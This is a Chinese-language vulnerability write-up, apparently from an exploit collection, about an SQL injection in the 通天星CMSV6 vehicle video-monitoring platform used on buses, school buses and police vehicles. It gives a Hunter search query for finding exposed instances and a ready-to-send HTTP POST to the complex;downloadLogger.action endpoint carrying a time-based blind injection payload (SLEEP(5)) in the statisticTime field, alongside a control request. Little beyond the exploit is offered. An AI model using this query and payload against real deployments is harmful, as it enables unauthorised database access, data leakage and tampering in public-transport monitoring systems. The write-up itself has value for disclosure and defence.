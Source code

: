 # 通天星CMSV6车载视频监控平台 complex存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台complex存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/vcXGl3_yX1OjLlX9/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-913587.png)

# 四、漏洞复现
```rust
POST /dynamic_monitoring_ledger/complex;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

statisticTime=1%27+AND+%28SELECT+8849+FROM+%28SELECT%28SLEEP%285%29%29%29uSno%29+AND+%27OOJG%27%3D%27OOJG&contentMeasures=1&companyId=1
```

![1717267316081-a29c4ffc-20c3-43e8-a615-d1f33ea97d0b.png](./img/vcXGl3_yX1OjLlX9/1717267316081-a29c4ffc-20c3-43e8-a615-d1f33ea97d0b-006819.png)

```rust
POST /dynamic_monitoring_ledger/complex;downloadLogger.action HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

statisticTime=1&contentMeasures=1&companyId=1
```

![1717267338409-027e747b-c9ec-475a-9d03-b3903e0b0b5e.png](./img/vcXGl3_yX1OjLlX9/1717267338409-027e747b-c9ec-475a-9d03-b3903e0b0b5e-870824.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kbchfugrz8x9yrew>